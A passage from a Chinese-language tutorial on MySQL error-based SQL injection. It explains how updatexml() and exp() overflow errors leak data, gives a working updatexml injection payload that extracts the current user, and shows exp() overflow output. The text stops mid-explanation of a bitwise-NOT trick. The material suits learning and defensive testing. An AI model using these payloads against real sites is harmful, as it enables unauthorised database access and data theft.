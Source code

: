 结构：

- 第一个参数：XML_document是String格式，为XML文档对象的名称 文中为Doc
- 第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。
- 第三个参数：new_value，String格式，替换查找到的符合条件的数据

作用：改变文档中符合条件的节点的值

由于`updatexml`的第二个参数需要`Xpath`格式的字符串，如果不符合`xml`格式的语法，就可以实现报错注入了。

这也是一种非常常见的报错注入的函数。

```sql
' and updatexml(1,concat(0x7e,(select user()),0x7e),1)--+
```

#### exp

MySQL中的EXP()函数用于将E提升为指定数字X的幂，这里E(2.718281 ...)是自然对数的底数。

```sql
EXP(X)
```

该函数返回E的X次方后的值，如下所示：

```sql
mysql> select exp(3);
+--------------------+
| exp(3)             |
+--------------------+
| 20.085536923187668 |
+--------------------+
1 row in set (0.00 sec)

mysql>
```

该函数可以用来进行 MySQL 报错注入。但是为什么会报错呢？我们知道，次方到后边每增加 1，其结果都将跨度极大，而 MySQL 能记录的 Double 数值范围有限，一旦结果超过范围，则该函数报错。这个范围的极限是 709，当传递一个大于 709 的值时，函数 exp() 就会引起一个溢出错误：

```sql
mysql> select exp(709);                                       
+-----------------------+                                     
| exp(709)              |                                     
+-----------------------+                                     
| 8.218407461554972e307 |                                     
+-----------------------+                                     
1 row in set (0.00 sec)                                       

mysql> select exp(710);                                       
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(710)'
mysql>
```

利用：使用版本：MySQL5.5.5 及以上版本

我们可以用 `~` 运算符按位取反的方式得到一个最大值，该运算符也可以处理一个字符串，经过其处理的字符串会变成大一个很大整数足以超过 MySQL 的 Double 数组范围，从而报错输出：
